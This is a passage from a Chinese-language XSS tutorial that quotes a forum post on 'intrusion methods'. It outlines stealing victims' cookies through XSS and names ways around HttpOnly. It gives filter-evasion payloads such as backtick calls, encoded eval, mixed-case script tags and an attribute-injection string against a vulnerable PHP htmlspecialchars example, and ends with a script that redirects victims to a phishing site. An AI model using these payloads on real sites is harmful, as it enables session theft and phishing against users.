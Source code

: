 

### 5. 入侵方法（摘自[XSS的利用方式----(朽木原创)](http://nvhack.com/forum.php?mod=viewthread&tid=162&extra=page%3D1)

攻击者发现xss漏洞->构造代码->发送给受害人->受害人打开->窃取受害人ccookie->完成攻击.

**盗取cookie:**可以使用现成的xss平台.

如果cookie中的某些关键值加了HttpOnly,那么就可以避免该网页的cookie被客户端的JS存取，也就保护了用户的cookie不被盗取.

当前可见的绕过Httponly的方法大致可以分为两类：一类是服务器配置或功能实现上存在可能被利用的弱点，可归结为服务端的信息泄露。如利用404 页、PHPINFO页，Trace方法等绕过HTTPonly；另一类是客户端漏洞或功能上存在可以被利用的弱点，可归结为客户端的信息泄露。如 MS08-069、利用ajax或flash读取set-cookie等。

**绕过防御**

**过滤了alert(1)的括号,可以用alert`1`  //反引号**

**利用js字符串模块  eval.call`${'\141\154\145\162\164\50\61\51'}`**

**转换大小写<scRiPt>alert(1)<ScRipt>**

**绕过Php的htmlspecialchars()**

Php的htmlspecialchars()默认能将< > & “转成< > & "

如果用了htmlspecialchars($name, ENT_QUOTES);   则 ’ 也会被转成 '

如果用了 htmlspecialchars ($name, ENT_NOQUOTES);则单双引号都不会被转换。

**J****s中可用以下代码绕过**：

Javascript:eval(String.fromCharCode(97, 108, 101, 114, 116, 40, 49, 41))

**H****tml中可用以下代码绕过**:

‘ onmouseover=’alert(1)

源代码是<input type=”text” value=””>

变成了<input type=”text” value=” ‘ onmouseover=’alert(1)”>

**2.php源代码**

<?php

$name = $_GET["name"];

$name = htmlspecialchars($name);

?>

<input type='text' value='<?php echo $name?>'>

地址栏输入<http://127.0.0.1/2.php?name>=’ onmouseover=’alert(1)后回车

然后将鼠标移到那个框框后， 弹出弹窗.

**Xss钓鱼(挂马):**

(1)**xss重定向钓鱼**

如自己建一个钓鱼网站www.xiumu.com, 然后受害者访问如下地址http://www.test.com/a.php?id=””><script>document.location.href=”[http://www.xiumu.com](http://www.xiumu.com/)”</script>
